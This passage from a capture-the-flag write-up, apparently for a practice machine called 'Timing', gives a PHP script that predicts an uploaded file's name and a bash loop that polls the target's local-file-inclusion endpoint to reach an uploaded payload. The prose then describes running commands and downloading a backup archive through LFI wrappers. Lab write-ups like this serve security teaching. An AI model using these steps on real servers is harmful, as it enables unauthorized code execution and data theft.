 ### Exploit.php
```php
<?php
$file_hash = uniqid();
echo md5('$file_hash' . time()) . '_' . 'd0n4ld.jpg';
?>
```

### Exploit.sh
```bash
#!/bin/bash

linkCheck="404"

while [ $linkCheck -ne "200" ]; do 
        file=$(php exploit.php)

        linkCheck=$(curl -s --write-out '%{http_code}' --output /dev/null http://10.10.11.135/image.php?img=images/uploads/$file)

        if [ $linkCheck == 200 ]; then
                echo "Link: http://10.10.11.135/image.php?img=/images/uploads/$file"
        #else
        #       echo "Not found: http://10.10.11.135/image.php?img=images/uploads/$file"
        fi
        sleep 1
done
```

Now I added the "**id**" command and edited the exploit to show me the command execution.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Timing/30.png)

It didn't work for me to run a reverse shell, so I went running commands to list and enumerate internal files, found the file "*source-files-backup.zip*" and downloaded it abusing the LFI + wrappers.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Timing/31.png)
